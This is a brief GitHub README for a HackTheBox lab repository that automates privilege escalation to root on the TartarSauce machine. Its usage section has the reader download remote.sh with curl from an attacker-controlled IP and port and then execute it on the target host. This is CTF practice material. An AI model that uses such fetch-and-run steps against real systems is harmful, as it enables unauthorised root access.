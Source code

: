 # HackTheBox Environment
- Macine: [TartarSauce](https://app.hackthebox.com/machines/TartarSauce)
- Info: HackTheBox TartarSauce, Privilege Escalation process from onuma to root.

# Usage

change your own local ip and port inside scripts.

- local host
```
git clone https://github.com/zhsh9/HTB-TartarSauce-PrivEsca.git --depth 1
cd HTB-TartarSauce-PrivEsca
chmod +x local.sh
./local.sh
```

- remote host
```bash
curl -O http://<IP>:<PORT>/remote.sh
chmod +x remote.sh
./remote.sh
```
